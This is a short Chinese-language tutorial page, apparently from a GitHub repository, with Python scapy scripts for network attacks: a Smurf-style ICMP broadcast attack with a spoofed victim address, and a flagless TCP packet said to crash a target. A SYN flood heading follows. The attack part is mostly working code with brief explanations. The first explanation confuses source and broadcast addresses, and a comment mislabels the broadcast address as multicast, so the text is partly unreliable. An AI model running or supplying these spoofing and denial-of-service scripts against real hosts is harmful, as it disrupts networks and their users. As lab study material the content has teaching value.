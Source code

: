 #### 原理： ####

---

发送icmp echo请求包的时候，将源地址设置成受害主机的广播地址，路由器以为这是一个广播包，将这个icmp echo请求包广播出去，导致整个网段的主机都像受害主机发送icmp 响应数据包

#### 代码： ####

---

	from scapy.all import *
	
	packet = Ether()/IP()/ICMP()
	packet[IP].dst = "206.121.73.255"        #随便找的一个组播地址？
	packet[IP].src = "192.168.58.131"        #受害者ip
	
	sendp(packet)

## TCP NO FLAG ##

#### 原理： ####

---

发送tcp包时，故意设置flag位为0，可能会导致受害主机崩溃

#### 代码： ####

	from scapy.all import *
	
	packet = IP()/TCP()
	packet[IP].dst = "192.168.58.130"
	packet[TCP].flags = 0
	send(packet)


![](./NetprotocolAttack/11.png)

## TCP SYN FLOOD ##
